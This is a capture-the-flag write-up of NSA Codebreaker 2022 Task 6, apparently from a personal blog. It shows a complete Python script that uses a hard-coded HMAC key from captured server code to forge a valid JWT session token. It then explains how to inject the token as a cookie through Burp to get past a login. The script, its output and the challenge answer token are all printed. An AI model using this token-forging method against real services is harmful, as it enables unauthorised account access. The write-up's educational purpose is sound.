 ```yaml
---
title: "NSACodebreaker2022 - Task6"
topic: "general"
tags: ["web-hacking", "software-development"]
prev: "http://andrewromans.com/posts/nsacodebreaker2022-task5"
next: "http://andrewromans.com/posts/nsacodebreaker2022-task7"
date: 2022-12-20T11:37:37-05:05
---
```


# Table of Contents
1. [Task A1](http://localhost:1313/posts/nsacodebreaker2022-taska1)
2. [Task A2](http://localhost:1313/posts/nsacodebreaker2022-taska2)
3. [Task B1](http://localhost:1313/posts/nsacodebreaker2022-taskb1/)
4. [Task B2](http://localhost:1313/posts/nsacodebreaker2022-taskb2/)
5. [Task 5](http://localhost:1313/posts/nsacodebreaker2022-task5/)
6. [Task 6](#task-6)
	- [Solution](#solution)
7. [Task 7](http://localhost:1313/posts/nsacodebreaker2022-task7/)
8. [Task 8](http://localhost:1313/posts/nsacodebreaker2022-task8/)
9. [Task 9](http://localhost:1313/posts/nsacodebreaker2022-task9/)

## Task 6

- - -
###### We've found the login page on the ransomware site, but we don't know anyone's username or password. Luckily, the file you recovered from the attacker's computer looks like it could be helpful.

###### Generate a new token value which will allow you to access the ransomware site.
- - -

### Solution

The file that we've decoded seems to be a Json Web Token, or JWT for short! These can be easily used to spoof login as another user without needing their username or password. Very powerful!

We can see what information the cookie holds by copying and pasting it into [jwt.io](https://jwt.io/)

```
# The Token
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpYXQiOjE2NTI1NjA2ODcsImV4cCI6MTY1NTE1MjY4Nywic2VjIjoiSDBidzM5N09jUHgyMlZBa1NQSTd3c3ZaNXFuZGlTakEiLCJ1aWQiOjIyNDkyfQ.QgxdO3-_ZI3InW90GiQvOjddffZOSboRVNGWohWdWnM
```

Looking at the JWT information, we can see that the assigned expiration date of the cookie has way passed. In order to recreate a valid cookie, we can make use of our scripting skills! Luckily for us, the `util.py` script from the source code we've capture earlier has some important information we can use to generate our own valid JWT token, such as the hard coded `hmack_key`.

```python
#!/usr/bin/env python3 

import jwt 
import time
from datetime import datetime, timedelta

token = "eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpYXQiOjE2NjEwMDY0MjYsImV4cCI6MTY2MTA5Mjc5NCwic2VjIjoiSDBidzM5N09jUHgyMlZBa1NQSTd3c3ZaNXFuZGlTakEiLCJ1aWQiOjIyNDkyfQ.mYmRxGmRR6QwhfZ_ZljSarJILmbJMUFNvrnlyinN6h8"

def hmac_key():
	return "R7RNY65GilmD4Hbw9ckndVcZ4QBpbUmA"

def validate_token(token):
	try:
		claims = jwt.decode(token, hmac_key(), algorithms=['HS256'])
		print(claims)
	except:
		print("OOF!")

def generate_token(uid, secret):
	now = datetime.now()
	exp = now + timedelta(days=30)
	claims = {'iat': now,
			  'exp': exp,
			  'uid': uid,
			  'sec': secret}
	return jwt.encode(claims, hmac_key(), algorithm='HS256')


import codecs
hex_str = "48 30 62 77 33 39 37 4F 63 50 78 32 32 56 41 6B 53 50 49 37 77 73 76 5A 35 71 6E 64 69 53 6A 41"
hex_str = hex_str.split(" ")
hex_str = "".join(hex_str)
hex_str = codecs.decode(hex_str, "hex").decode('utf-8')

token = generate_token("22492", hex_str)
print(f"==== GENERATED TOKEN ====\n\n {token} \n\n")
validate_token(token)
```

Running this script should give us a valid JWT token.

```
==== GENERATED TOKEN ====

 eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpYXQiOjE2NjA5OTI2NDUsImV4cCI6MTY2MzU4NDY0NSwidWlkIjoiMjI0OTIiLCJzZWMiOiJIMGJ3Mzk3T2NQeDIyVkFrU1BJN3dzdlo1cW5kaVNqQSJ9.jhO2T7ZJXOK_9d84l2H8FoABgs3QRPf0ZOUNN237HRg 


{'iat': 1660992645, 'exp': 1663584645, 'uid': '22492', 'sec': 'H0bw397OcPx22VAkSPI7wsvZ5qndiSjA'}
 gC4Zcze36Mo0G9hY89MavH0XU213mF
```

We can see in the source code of the server that the cookie name used for validation is `tok`. Using `Burp` we can easily capture any outgoing data and replace/add a cookie called `tok` with our newly valid JWT token generated above. 

The correct answer:

The cookie you generate at the time, which for my case was:

`eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpYXQiOjE2NjA5OTI2NDUsImV4cCI6MTY2MzU4NDY0NSwidWlkIjoiMjI0OTIiLCJzZWMiOiJIMGJ3Mzk3T2NQeDIyVkFrU1BJN3dzdlo1cW5kaVNqQSJ9.jhO2T7ZJXOK_9d84l2H8FoABgs3QRPf0ZOUNN237HRg`

![Task 6 Badge](/posts/badge6.png "Task 6 Badge")

- - -